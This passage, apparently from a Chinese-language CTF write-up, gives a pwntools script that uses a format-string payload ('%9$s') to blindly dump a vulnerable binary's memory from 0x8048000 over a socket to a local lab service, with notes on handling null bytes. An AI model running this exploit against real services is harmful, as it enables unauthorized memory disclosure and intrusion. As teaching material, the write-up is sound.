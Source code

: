 > 这里最好从0x8048000开始泄漏，不要只泄漏.text段。不然，会有很多符号解析数据没有泄漏下来。

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import binascii
# context.log_level = 'debug'

r = remote('127.0.0.1',9999)
r.recv()
r.sendline('moxiaoxi')
r.recv()

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    resp = r.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret


begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        if len(ret) == 0:
            begin +=1
            text_seg += '\x00'
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin','wb') as f:
        f.write(text_seg)


```

在进行dump的过程中实际上是需要注意一些内容的，原因是%s进行输出时实际上是x00截断的，但是.text段中不可避免会出现x00，但是我们注意到还有一个特性，如果对一个x00的地址进行leak，返回是没有结果的，因此如果返回没有结果，我们就可以确定这个地址的值为x00，所以可以设置为x00然后将地址加1进行dump。

内存数据dump下来后，虽然跟原始bin有很大不同，也运行不了，但是丢到ida中仍然是可以看的:

![2](https://mo-xiaoxi.github.io/img/post/Fmtstr/2.png)

